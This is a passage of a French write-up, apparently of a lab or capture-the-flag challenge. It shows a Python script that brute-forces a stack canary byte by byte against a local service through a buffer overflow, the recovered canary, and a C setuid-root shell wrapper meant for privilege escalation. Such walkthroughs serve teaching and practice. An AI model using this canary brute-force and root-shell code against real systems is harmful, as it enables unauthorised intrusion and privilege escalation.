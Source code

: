 ```python
import socket
import struct
import time

canary = ""

for i in range(0, 4):
        for byte in xrange(0, 0xff):
                s = socket.socket()
                s.connect(("127.0.0.1", 3333))
                s.recv(1024)
                buff = "A" * 30
                buff += canary + chr(byte)
                s.send(buff)
                buff  = s.recv(2014) # [+] yeah, I don't think so
                buff += s.recv(1024) # [+] bye! or empty
                if "bye" in buff:
                        canary += chr(byte)
                        print "canary = " + canary.encode("hex_codec")
                        break
                s.close()
```

En local l'exécution est quasi-immédiate. Sur la VM c'est plus lent, peut être le fait de l'avoir bourriné avant :p  

On obtient ce résultat :  

```plain
canary = 77
canary = 77b7
canary = 77b717
canary = 77b717d5
```

Le canary est à lire en sens inverse, sa valeur est *0xd517b777*.  

On a maintenant toutes les informations en main.  

J'ai écrit et compilé le programme suivant qui ne demande qu'à devenir setuid root.  

```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```
